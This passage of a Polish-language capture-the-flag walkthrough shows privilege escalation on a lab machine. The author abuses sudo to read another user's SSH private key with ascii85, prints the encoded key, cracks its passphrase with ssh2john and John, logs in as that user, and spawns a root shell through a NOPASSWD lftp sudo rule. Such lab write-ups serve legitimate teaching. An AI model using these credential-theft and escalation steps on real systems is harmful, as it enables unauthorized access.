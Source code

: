 
```bash
# tomcat@tom:/$ sudo -u nathan /usr/bin/ascii85 /home/nathan/.ssh/id_rsa
sudo -u nathan /usr/bin/ascii85 /home/nathan/.ssh/id_rsa
<~/M/P+/ODlr8PUC+;aDO&;FsnT<(.p&79M2o/M/O]:i^Ja/Q@"7ANCqj/4E<$;HZgq777JN78#4(DJ!
fJ+@JXs/O`&r1G(s\6S()K2DmEN2*!EG68phj1c5UIE+3<K@QA(GE'\/<7S[Z50i^&,2cE@"=)M,TBfJ
sZ<G4*A92.*Y9K6!RATMU".qMURChlRa=[I:KD)ZK,$;!$4FYH?iG'J1%;bor/2`XH/1.bD[AO9Bc=#*
...........
...........

"u6n:Y]1,_mR:,mK;C.1%%H?iOe:Ll4ZAO1?=8M=Rf8o\Q=<sh<21,;4#=CHD`ASu0\2d/Rp1.sEK8kC
OEC.pKuAi!t?0lKc::,k%LCL]e&FAahi@q0%m;FY8E2GljqCH)Z>C2IWm=Yr*-G:Q3UD`))d=aEn^>$#
RtCf#@U@rZ[0CLT%pBf/=h85!&U<)>PO:,6]B6UG9C0M64X12^3'7r;+<8P=.a:,[Dg@;g:%$8!h]/M0
Cd6m,B+5p0!%8QJ,V73G5l=Y23W/M.;~>tomcat@tom:/$
```
## 06. Te krypto

Klucz wrzucamy do siebie na serwer. Do rozkodowania naszego klucza przyda się [strona](https://www.dcode.fr/ascii-85-encoding). Potem go jeszcze trzeba złamać. Łamanie **John**em Pójdzie dosyć szybko. klucz możemy rozkodować, albo od razu się połączyć na konsolę. Z przyzwyczajenie złammy go :smiley:
{: .text-justify}

```bash
# ssh2john.py id_rsa.enc > id_rsa.hash
# john id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
...
```
John znalazł hasło, więc się go pozbądźmy:
{: .text-justify}
```bash
# openssl rsa -in id_rsa.enc -out id_rsa
```

## 07. Na dziś kończymy
Koniec bez komentarza, wszystko widać jak na dłoni.
{: .text-justify}
```bash
# ssh -i id_rsa nathan@172.16.1.214
```
```bash
# nathan@tom:~$ sudo -l
Matching Defaults entries for nathan on tom:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nathan may run the following commands on tom:
    (root) NOPASSWD: /usr/bin/lftp
# nathan@tom:~$ sudo /usr/bin/lftp
lftp :~> !bash
```